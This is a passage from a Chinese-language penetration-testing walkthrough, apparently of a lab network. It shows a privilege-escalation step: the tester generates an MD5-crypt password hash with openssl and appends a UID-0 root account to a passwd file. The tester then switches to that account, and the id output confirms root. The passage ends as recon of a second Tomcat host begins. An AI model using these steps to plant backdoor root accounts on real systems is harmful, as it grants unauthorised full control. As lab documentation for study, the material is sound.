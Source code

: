 2、本地生成增加 root 用户 ，密码为 ：1542576819zfY

```bash
└─$ openssl passwd -1 --salt zf1yolo
Password: 
$1$zf1yolo$YD1BMW/E/wbkKCcRkjFCb0
```

3、添加用户到 passwd 里

```bash
~ # cd /mnt/
/mnt # vi passwd
/mnt # cat passwd
```

```
zf1yolo:$1$zf1yolo$YD1BMW/E/wbkKCcRkjFCb0:0:0:root:/root:/bin/bash
```

```
/mnt # exit
```

4、`su zf1yolo`

```bash
cf1@08:~$ su zf1yolo
密码： 
root@08:/home/cf1# ls
examples.desktop  exploit_defaults_mailer.py  exploits  exploit_userspec.py  id_rsa  id_rsa.pub  install.sh  公共的  模板  视频  图片  文档  下载  音乐  桌面
root@08:/home/cf1# id
uid=0(root) gid=0(root) 组=0(root)
```

<img src=".\图片\Snipaste_2023-05-11_16-30-05.png" alt="Snipaste_2023-05-11_16-30-05" style="zoom:80%;" />

# 第二台Tomcat-Web

## 信息搜集

1、内网主机发现
